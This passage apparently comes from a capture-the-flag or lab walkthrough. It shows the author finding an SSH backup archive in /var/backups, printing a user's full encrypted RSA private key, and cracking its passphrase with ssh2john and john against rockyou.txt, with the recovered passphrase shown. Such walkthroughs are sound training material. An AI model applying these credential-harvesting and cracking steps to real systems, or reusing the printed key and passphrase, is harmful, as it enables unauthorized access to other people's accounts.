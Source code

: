 ![](CYBERSECURITY/IMAGES/Pasted%20image%2020250402130331.png)

If we look around, we can find this inside of `/var/backups`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250402132010.png)

We got a `ssh-backup.tar.gz`, if we look at the `home` directory, we find there's an user called `server-managment`, if we are able to unzip this file, we may be able to get either the credentials or the `id_rsa` of this user, let's get it in our local machine:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250402132117.png)

There we go, we got the `id_rsa`:

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6CE1A97A7DAB4829FE59CC561FB2CCC4

mRFDRL15t7qvaZxJGHDJsewnhp7wESbEGxeAWtCrbeIVJbQIQd8Z8SKzpvTMFLtt
dseqsGtt8HSruVIq++PFpXRrBDG5F4rW5B6VDOVMk1O9J4eHEV0N7es+hZ22o2e9
60qqj7YkSY9jVj5Nqq49uUNUg0G0qnWh8M6r8r83Ov+HuChdeNC5CC2OutNivl7j
dmIaFRFVwmWNJUyVen1FYMaxE+NojcwsHMH8aV2FTiuMUsugOwZcMKhiRPTElojn
tDrlgNMnP6lMkQ6yyJEDNFtn7tTxl7tqdCIgB3aYQZXAfpQbbfJDns9EcZEkEkrp
hs5Li20NbZxrtI6VPq6/zDU1CBdy0pT58eVyNtDfrUPdviyDUhatPACR20BTjqWg
3BYeAznDF0MigX/AqLf8vA2HbnRTYWQSxEnAHmnVIKaNVBdL6jpgmw4RjGzsUctk
jB6kjpnPSesu4lSe6n/f5J0ZbOdEXvDBOpu3scJvMTSd76S4n4VmNgGdbpNlayj5
5uJfikGR5+C0kc6PytjhZrnODRGfbmlqh9oggWpflFUm8HgGOwn6nfiHBNND0pa0
r8EE1mKUEPj3yfjLhW6PcM2OGEHHDQrdLDy3lYRX4NsCRSo24jtgN1+aQceNFXQ7
v8Rrfu5Smbuq3tBjVgIWxolMy+a145SM1Inewx4V4CX1jkk6sp0q9h3D03BYxZjz
n/gMR/cNgYjobbYIEYS9KjZSHTucPANQxhUy5zQKkb61ymsIR8O+7pHTeReelPDq
nv7FA/65Sy3xSUXPn9nhqWq0+EnhLpojcSt6czyX7Za2ZNP/LaFXpHjwYxBgmMkf
oVmLmYrw6pOrLHb7C5G6eR6D/WwRjhPpuhCWWnz+NBDQXIwUzzQvAyHyb7D1+Itn
MesF+L9zuUADGeuFl12dLahapM5ZuKURwnzW9+RwmmJSuT0AnN5OyuJtwfRznjyZ
7f5NP9u6vF0NQHYZI7MWcH7PAQsGTw3xzBmJdIfF71DmG0rqqCR7sB2buhoI4ve3
obvpmg2CvE+rnGS3wxuaEO0mWxVrSYiWdi7LJZvppwRF23AnNYNTeCw4cbvvCBUd
hKvhau01yVW2N/R8B43k5G9qbeNUmIZIltJZaxHnQpJGIbwFSItih49Fyr29nURK
ZJbyJbb4+Hy2ZNN4m/cfPNmCFG+w0A78iVPrkzxdWuTaBOKBstzpvLBA20d4o3ow
wC6j98TlmFUOKn5kJmX1EQAHJmNwERNKFmNwgHqgwYNzIhGRNdyoqJxBrshVjRk9
GSEZHtyGNoBqesyZg8YtsYIFGppZFQmVumGCRlfOGB9wPcAmveC0GNfTygPQlEMS
hoz4mTIvqcCwWibXME2g8M9NfVKs7M0gG5Xb93MLa+QT7TyjEn6bDa01O2+iOXkx
0scKMs4v3YBiYYhTHOkmI5OX0GVrvxKVyCJWY1ldVfu+6LEgsQmUvG9rYwO4+FaW
4cI3x31+qDr1tCJMLuPpfsyrayBB7duj/Y4AcWTWpY+feaHiDU/bQk66SBqW8WOb
d9vxlTg3xoDcLjahDAwtBI4ITvHNPp+hDEqeRWCZlKm4lWyI840IFMTlVqwmxVDq
-----END RSA PRIVATE KEY-----
```

We need a passphrase in order to use this key, we can crack it using john, let's do the following:

```
ssh2john id_rsa > id_rsa.hash

john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt

oneTWO3gOyac     (id_rsa)
```
